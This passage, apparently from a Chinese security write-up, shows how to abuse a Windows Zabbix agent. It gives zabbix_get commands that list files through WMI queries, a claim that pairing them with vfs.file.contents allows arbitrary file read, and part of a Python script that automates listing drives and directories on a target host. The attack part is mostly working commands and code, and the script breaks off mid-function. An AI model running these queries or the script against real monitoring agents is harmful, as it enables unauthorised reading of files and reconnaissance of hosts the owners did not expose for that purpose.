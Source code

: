 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d26db618615ffcd3.jpg)

获取C:下的文件，采用条件语句排除法逐行获取。

```
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' AND Name != 'C:\\\\\$WINRE_BACKUP_PARTITION.MARKER' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM CIM_DataFile WHERE Drive='C:' AND Path='\\\\' AND Name != 'C:\\\\\$WINRE_BACKUP_PARTITION.MARKER' AND Name !='C:\\\\browser.exe' \"]"

...
```

[![](https://p2.ssl.qhimg.com/t01c0ad9f0b999fb732.jpg)](https://p2.ssl.qhimg.com/t01c0ad9f0b999fb732.jpg)

利用`wmi.get`命令进行目录遍历、文件遍历，结合`vfs.file.contents`命令就能够在Windows下实现任意文件读取。

基于zabbix_get命令写了个python脚本，实现Windows的列目录、读文件功能。

```
import os
import sys

count = 0

def zabbix_exec(ip, command):
    global count
    count = count + 1
    check = os.popen("./zabbix_get -s " + ip + " -k \"" + command + "\"").read()
    if "Cannot obtain WMI information" not in check:
        return check.strip()
    else:
        return False

def getpath(path):
    return path.replace("\\","\\\\\\\\").replace("$","\\$")

def GetDisk(ip):
    where = ""
    while(True):
        check_disk = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM Win32_LogicalDisk WHERE Name != '' " + where + "\\\"]")
        if check_disk:
            print(check_disk)
            where = where + "AND Name != '" + check_disk+ "'"
        else:
            break

def GetDirs(ip, dir):
    drive = dir[0:2]
    path = dir[2:]

    where = ""
    while(True):
        check_dir = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Caption FROM Win32_Directory WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")
        if check_dir:
            print(check_dir)
            where = where + "AND Caption != '" + getpath(check_dir) + "'"
```